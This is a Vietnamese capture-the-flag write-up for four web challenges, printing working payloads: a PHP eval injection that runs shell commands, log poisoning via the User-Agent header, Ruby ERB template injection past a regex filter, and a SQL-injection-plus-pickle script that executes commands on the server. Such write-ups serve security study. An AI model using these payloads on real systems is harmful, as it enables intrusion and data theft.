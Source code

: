 # Web challenger writeup
`capy3ra`

- [LoveTok](#lovetok)
- [Toxic](#toxic)
- [Neonify ](#neonify)
- [C O P](#c-o-p)

## LoveTok

1. Đây là một bài whitebox nên ta được cung cấp source code.
2. Sau khi đọc source, ta có thể biết được luồng xử lý của app. Ở đây hệ thống sẽ xử lý theo mô hình MVC. Với model TimeModel thực hiện khảo tạo một đối tượng ước tính thời gian với
3. Đối tượng TimeModel được khởi tạo với param `format` được truyền vào
```
public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
```
4. Với hàm khởi tạo model được thực hiện sẽ tạo ra một thuộc tính `prediction` được random một khoảng thời gian
5. Sau đó ở view index biến time sẽ được gán cho kết quả của phương thức getTime() với đoạn code như sau:
```
public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
```
6. Hàm eval sẽ thực hiện một câu lệnh php động với 2 tham số `format` được nhập vào và `prediction` được random ra từ phương thức khởi tạo ở trên để gán giá trị cho biến time.
7. Với tham số format mà ta kiếm soát ta sẽ cố gắng inject vào nó. Hàm `addslashes` được sử dụng để escapse các dấu `'`,`"` nhưng thế vào chưa đủ.
8. Ý tưởng ở đây là ta sẽ chèn đoạn sau `${system($_GET[1])}` vào hàm eval rồi thêm tham số `1` để exec shell.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/72279455-41e0-4030-92c0-5933e4098502)

9. RCE thành công. Đọc flag.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/55d05f7e-1bd9-4f7f-a2fa-580158e1e3d7)

## Toxic

1. Whitebox. Qua phân tích có thể thấy app sẽ tạo ra một object `PageModel` với thuộc tính `file`, rồi nội dung trong sẽ là file được include
2. Có thể đọc file bằng cách thay đổi giá trị thuộc tính rồi serialize lại.
3. Ở bài này, ta có thể đọc được file access.log

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/87798192-18b6-4525-a44b-61d31ab42a5f)

4. Chèn mã php thông qua user-agent thì nhận thấy rce thành công.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/911ef94f-3b4a-49a0-9088-771f825e4044)

## Neonify

1. Ở bài này nhận thấy trang web lấy tham số neon người dùng nhập vào để hiển thị kết quả lên màn hình sử dụng template ERB của ruby.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/0442c52a-7c62-409c-834c-14189e60edcf)
2. Ở đây, họ sử dụng regex để validate rằng input vào chỉ chứa một chuỗi gồm các chữ và số hoặc dấu cách mà k xuất hiện các ký tự đặc biệt.
3. Tìm cách để bypass nó thì có một bài viết hướng dẫn bypass regex bằng cách xuống dòng [link](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)
4. Inject template để list file trong thư mục gốc
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a5b86823-8e3e-43e0-9065-e8cd31d79862)
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a4a97732-19da-4b2c-85b4-b6e6e0af1e8d)

5. Lấy flag
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/8d6fc4bb-33e0-457e-8d3b-4d36a43f07eb)


## C O P

1. Fuzzing web đồng thời xem source code. Trước hết để ý 2 file `routes.py` và `models.py` nhận thấy web có 2 route chính. 1 là trang chủ lấy thông tin toàn bộ sản phẩm trong bảng products trong db. 2 là endpoint view lấy giá trị product_id để lấy thông tin chi tiết sản phẩm

```
#routes.py
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))

#models.py
def select_by_id(product_id):
	return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```

2. Tuy nhiên nhận thấy ở đây, họ truy vấn sql bằng cách nối chuỗi, hơn nữa biến product_id có thể dễ dàng kiểm soát. (sqli)

3. Hơn nữa ở đây họ dùng pickle để serialize và deserialize thông tin sản phẩm. Lợi dụng pickle để exploit rce [RCE with pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

4. Dùng dump + b64encode object Items rồi lấy giá trị sau đó insert cột data trong bảng product. Khi mấy lấy dữ liệu thì load + b64 decode từ db.

5. Dựa vào wu trên, code serialize để server pickle load.

```
import pickle
import base64
import subprocess

payload = ['cat', 'flag.txt', 'application/static/.']

class RCE:
    def __reduce__(self):
        return (subprocess.check_output, (payload, ))

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(RCE())))

```

6. Sau đó vào url /static/flag.txt lấy flag. (Không hiểu sao cách dùng os.system không được nên phải thay bằng subprocess)
